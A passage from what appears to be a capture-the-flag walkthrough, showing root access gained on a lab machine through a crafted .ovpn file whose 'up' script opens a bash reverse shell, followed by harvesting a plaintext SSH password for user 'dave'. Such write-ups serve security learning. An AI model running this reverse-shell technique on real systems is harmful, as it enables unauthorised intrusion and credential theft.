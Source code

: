 Googling around for possible exploits reveals that it is possible for us to gain a reverse shell using .ovpn files. First we need to find the local IP Address of the machine, which is 192.168.122.1 when inspecting `ip addr` output.

<figure><img src="../../../.gitbook/assets/image (43) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then, we can input the following file and run Test VPN.&#x20;

```
remote 192.168.122.1
dev tun
nobind
script-security 2 
up "/bin/bash -c 'bash -i >& /dev/tcp/192.168.122.1/4444 0>&1'"
```

Take note that we have to use the IP address **of the machine** and not our own. With the SSH access we have, we can open a listener port and catch a root shell:

<figure><img src="../../../.gitbook/assets/image (5) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

Here, we can grab the user flag from `/home/dave`. Then we can find more credentials for `dave` on this machine:

```
root@DNS:/home/dave# cat ssh
cat ssh
dave
dav3gerous567
```

We can then SSH in as `dave` on the DNS server. This helps to upgrade our shell.

<figure><img src="../../../.gitbook/assets/image (44) (4) (1) (1).png" alt=""><figcaption></figcaption></figure>
